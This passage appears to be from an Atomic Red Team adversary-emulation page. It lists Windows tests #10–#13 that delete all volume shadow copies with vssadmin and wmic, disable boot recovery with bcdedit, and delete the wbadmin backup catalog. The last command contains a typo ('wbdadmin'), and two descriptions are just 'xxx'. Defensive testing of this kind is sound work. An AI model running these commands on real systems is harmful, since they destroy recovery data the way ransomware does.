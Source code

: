 ## Atomic Test #10 - Delete VSS - vssadmin
Delete all volume shadow copies with vssadmin.exe

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
vssadmin.exe Delete Shadows /All /Quiet
```
<br/>
<br/>

## Atomic Test #11 - Delete VSS - wmic
Delete all volume shadow copies with wmic

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
wmic shadowcopy delete
```
<br/>
<br/>

## Atomic Test #12 - bcdedit
xxx

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
```
<br/>
<br/>

## Atomic Test #13 - wbadmin
xxx

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
wbdadmin delete catalog -quiet
```
<br/>
